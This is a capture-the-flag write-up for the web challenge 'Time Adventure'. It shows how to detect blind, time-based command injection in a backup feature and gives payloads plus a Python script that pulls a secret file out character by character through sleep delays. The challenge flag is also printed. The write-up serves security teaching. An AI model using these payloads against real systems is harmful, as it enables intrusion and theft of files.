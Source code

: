 # [WEB] Time Adventure

---

![timeadventure.png](assets/timeadventure.png)

### 10th March 2024

**Author**: `kahang`

**Difficulty**: `Medium`

**Flag**: `FIA{t1m3_1s_4n_1llus10n}`

### Description

> *It's Adventure Time... Don't forget to back up your file.*
> 

### Objective

> Identifying and exploiting Blind Command Injection Vulnerabilities in the web application.
> 
### Skills Required
- Basic Web Fundamental & Exploitation
- Basic Linux Command
- Basic Python Programming
---

# Solution

## Information Gathering

- First, we need to know what this web does and what features does it have.

![Untitled](assets/Untitled.png)

- So there is a function that executes a Linux command `zip` to package the whole directory `/var/www/html` into `/tmp` with a custom file name to the backend server.
- Next, view the Source of the website and see a suspicious comment.
- Press `Ctrl + U` or `Right Click → View page source`.
    
    ![2024-03-10_14h26_26.png](assets/2024-03-10_14h26_26.png)
    

```html
<!-- Admin Note: I have saved a secret credential in a super secret text file located in the "/" folder. Please make sure to check it out. -->
```

- With this information, we can guess that there’s a text file `.txt` in **`/`** (Root Directory) that might contain interesting data with an unknown name.

## Identify Vulnerability

- Try to inject some basic **Command Injection** payload. For example `; whoami ;`

![Untitled](assets/Untitled%201.png)

- As we can see the web says that this command has been executed but there is no actual information from the server display back so we can’t know whether was it executed or not.
- Let’s verify it by sending a delay command to see if the backend server interpreting it. With the payload is `; sleep 5;`

![ezgif-5-de44b10e52.gif](assets/ezgif-5-de44b10e52.gif)

- We have noticed that after executing the command, a loading GIF appears with a 5-second delay as if the command were set to `sleep 5`.

![Untitled](assets/Untitled%202.png)

- This can be concluded as a Blind Command Injection or Time-based Command Injection.

## Crafting Payload

- By using `cat` with wild card `*` , we can read all the files within a directory without the need of knowing the file name and the `cut`command is used for taking each character one by one.

![Untitled](assets/Untitled%203.png)

- Adding a little if-else statement so that we can check if the character taken out matches or not.

![Untitled](assets/Untitled%204.png)

## Solver

- We could use the *Side Channel Attack* technique to extract data. The main idea is to "manipulate time" and grep data with the `sleep`command character-by-character from the backend.

![Untitled](assets/Untitled%205.png)

- Here is the whole script:

```python
import requests 
import time
url = "https://timeadventure.fiahackingisfun.id.vn/"
charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/"
flag = ""
# Payload: Checks if the character matches
payload = "; if [ \"$(cat /*.txt|cut -c{})\" = \"{}\" ]; then sleep 2; fi;"
while True:
    for char in charset:
        query_payload = payload.format(len(flag)+1, char)
        data = {"command": "backup", "target": query_payload}
        start_time = time.time()  # Starts recording the time
        # Sending Request
        res = requests.post(url, data=data)
        end_time = time.time()  # Stops recording the time
        real_time = end_time - start_time
        # If the entire request and response time > 2, then append the character
        if real_time > 2:
            flag += char
            break
    print(flag)
```

## Bonus

- As in the script above, I’ve used the whole characters set in ASCII format. The total amount of the set is 93 characters `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~[]{}|:;\"'<>,.?/` . In the worst case, we must have to brute force or send total requests to the web application 93 times for each character, and for the whole string “FIA{t1m3_1s_4n_1llus10n}” contains 24 characters, it’s gonna be `24 * 93 = 2304` possibilities.
- This kinda takes time and not efficiency, therefore we can convert to Hexadecimal or even Binary to decrease the amount of guessing each character. When converted to Hexadecimal, the length of the character now becomes 48 but the range of Hex is only 16 `(0 → F)`. Therefore, the total possibilities now are `48 * 16 = 768`.

![Untitled](assets/Untitled%206.png)

- For the most optimization, we could convert it to Binary. From now on, the whole length of the string that we need to brute force is 192 characters and the possibility of each character is only 2 because Binary is `0 and 1`. Therefore, the possibility for guessing this string is `192 * 2 = 384`.

![Untitled](assets/Untitled%207.png)
